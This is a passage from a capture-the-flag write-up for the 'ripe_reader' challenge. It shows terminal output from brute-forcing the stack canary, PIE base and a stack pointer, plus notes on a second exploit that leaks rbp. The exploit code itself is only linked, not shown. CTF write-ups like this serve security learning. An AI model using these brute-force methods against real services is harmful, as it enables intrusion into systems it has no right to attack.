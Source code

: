 ```bash
0x8e06
procbase | 0xffff 0x8e06
0x3a8e06
0xff3a8e06
0xd0ff3a8e06
0x55d0ff3a8e06
procbase 0x55d0ff3a8000
[+] Opening connection to two.jh2i.com on port 50023: Done

Invalid option!
flag{should_make_an_ascii_flag_image}

real    10m43.063s
user    0m3.230s
sys 0m0.923s
```

Times of other runs: _15m50.392s_, _12m27.560s_, _10m52.456s_


## But... what if `./flag.txt` was not in the binary?

In that case, we'd have to leak a stack address and then put `./flag.txt` on the stack.  See [exploit2.py](exploit2.py) for an implementation.

There are a few challenges with leaking the saved base pointer (rdp):

1. Brute-forcing _what-will-be-popped_ into `rdp` on `leave` may not fail as quickly as brute-forcing the canary or return address.  In the later cases the connection is dropped quickly, for a quicker check, whereas a corrupted `rdp` may not crash the program--a timeout may need to be used to detect failure.
2. The length of the timeout.  Locally 0.1 seconds worked consistently.  Remotely with 0.5 seconds only 1 of 3 tests passed.
3. Many `ripe_reader` runaway processes is a byproduct of this bruce-force, slowing down the challenge server.

There's one last issue that I've not had the time to analyze yet.  The distance from stack leak (rbp) to the start of the input buffer is either 68 or 176 depending on the value of the least sigificant nibble; if `0`, then the distance is 176, otherwise 68.  IIRC, the nibble was either `0` or `4`, I do not recall, in any tests, any other value.  Checking all my results, the probably of a `0` was 75%.

Output:

```bash
# time ./exploit2.py two.jh2i.com 50023
[*] '/pwd/datajerk/nahamconctf2020/ripe_reader/ripe_reader'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x6600
0xbb6600
0xe5bb6600
0x59e5bb6600
0x3c59e5bb6600
0x283c59e5bb6600
0x8b283c59e5bb6600
canary 0x8b283c59e5bb6600
0x30
0xb530
0xdbb530
0x24dbb530
0xfe24dbb530
0x7ffe24dbb530
```